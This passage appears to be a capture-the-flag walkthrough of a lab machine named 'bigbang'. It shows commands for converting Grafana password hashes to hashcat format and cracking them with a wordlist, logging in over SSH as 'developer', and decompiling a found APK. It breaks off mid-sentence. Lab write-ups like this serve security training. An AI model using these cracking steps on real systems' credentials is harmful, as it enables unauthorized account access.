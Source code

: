 ```bash
python3 grafana2hashcat.py hashes.txt -o hashcat_formathash.txt

[+] Grafana2Hashcat
[+] Reading Grafana hashes from:  hashes.txt
[+] Done! Read 1 hashes in total.
[+] Converting hashes...
[+] Converting hashes complete.
[+] Writing output to 'hashcat_formathash.txt' file

hashcat -m 10900 hashcat_formathash.txt --wordlist /usr/share/wordlists/rockyou.txt

sha256:10000:NHVtZWJCSnVjdg==:foAYpCEO+66xLwEVWApHb+j5ik+braJyDmUmVIYMWduTV3sSIBwBUSVjddb4g/G42WA=:REDACTED
```
And now we can login as ```developer``` on ssh and find an .apk in his home directory

## Root

### Reverse APK

```bash
developer@bigbang:~/android$ ls -la
total 2424
drwxrwxr-x 2 developer developer    4096 Jun  7  2024 .
drwxr-x--- 4 developer developer    4096 Jan 17 11:38 ..
-rw-rw-r-- 1 developer developer 2470974 Jun  7  2024 satellite-app.apk
```
Download it and we can "reverse" the app using ```d2j-dex2jar.sh``` and ```jadx-gui```

```bash
d2j-dex2jar.sh /workspace/bigbang/satellite-app.apk

jadx-gui satellite-app-dex2jar.jar &
```
After some enumerations we can found theses informations :
